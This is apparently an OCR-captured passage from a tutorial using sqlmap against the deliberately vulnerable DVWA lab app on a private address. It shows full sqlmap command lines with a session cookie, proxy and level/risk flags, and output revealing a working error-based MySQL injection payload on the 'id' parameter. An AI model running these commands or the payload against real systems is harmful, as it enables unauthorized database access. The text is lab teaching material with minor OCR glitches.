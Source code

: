 The WARNING tells us that sqlmap tested the PHPSESSID cookie, which actually
logged us out (not shown). Something isn't working, so let's see whether we can
give sqlmap some hints. Scanning the help text shows us that we can use the
`-p` option to provide a parameter and the `--dbms` option to tell it what
database is in use. We'll know what value to pass, as it. found. them. when.
we. first. ran. the. tool.

    [26++]:> py -2 .\sqlmap.py --proxy=http://127.0.0.1:8080 -u "http://192.168.253.133/dvwa/vulnerabilities/sqli/?id=Shamus&Submit=Submit#"
    --cookie="PHPSESSID=7utdbu8ujguekphdg426i7juk6" -p id --dbms=mysql

Supplying the parameter and DB produces just 154 requests. But we still get our
CRITICAL error:

    [23:35:06] [CRITICAL] all tested parameters appear to be not injectable.  Try to increase
    '--level'/'--risk' values to perform more tests. As heuristic test turned out positive you are
    strongly advised to continue on with the tests. Please, consider usage of tampering scripts as
    your target might filter the queries. Also, you can try to rerun by providing either a valid
    value for option '--string' (or '--regexp')

Let's turn it up to 11:

    [29++]:> py -2 .\sqlmap.py --proxy=http://127.0.0.1:8080 -u "http://192.168.253.133/dvwa/vulnerabilities/sqli/?id=Shamus&Submit=Submit#"
    --cookie="PHPSESSID=7utdbu8ujguekphdg426i7juk6" -p id --dbms=mysql
    --level=5 --risk=3

10,235 requests later:

    [23:54:02] [WARNING] GET parameter 'id' is not injectable
    [23:54:02] [CRITICAL] all tested parameters appear to be not injectable. As heuristic test
    turned out positive you are strongly advised to continue on with the tests. Please, consider
    usage of tampering scripts as your target might filter the queries. Also, you can try to rerun
    by providing either a valid value for option '--string' (or '--regexp')

So we're still not getting anywhere. Sqlmap does have a few more tricks up its
sleeve, however. One nice option is the ability to provide it with a raw
request from Burp (or similar) and have it work out everything from there.

    [3+]:> py -2 .\sqlmap.py -r .\SQLi_test_request --dbms=mysql -p id --proxy...

Still telling it the DB and parameter to look at, but let's see whether it gets
us any further.

    [4+]:> py -2 .\sqlmap.py -r .\SQLi_test_request --dbms=mysql -p id --proxy=http://127.0.0.1:8080 --banner

        sqlmap/1.0-dev-991cafc - automatic SQL injection and database takeover tool
        http://sqlmap.org

    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is
    illegal. It is the end user's responsibility to obey all applicable local, state and federal
    laws. Developers assume no liability and are not responsible for any misuse or damage caused by
    this program

    [*] starting at 13:37:57

    [13:37:57] [INFO] parsing HTTP request from '.\SQLi_test_request'
    [13:37:57] [INFO] testing connection to the target URL
    sqlmap identified the following injection points with a total of 0 HTTP(s) requests:
    ---
    Place: GET
    Parameter: id
        Type: error-based
        Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause
        Payload: id=Shamus' AND (SELECT 7874 FROM(SELECT COUNT(*),CONCAT(0x7170766f71,(SELECT (CASE
        WHEN (7874=7874) THEN 1 ELSE 0 END)),0x71747a6c71,FLOOR(RAND(0)*2))x FROM
        INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'eSMd'='eSMd&Submit=Submit
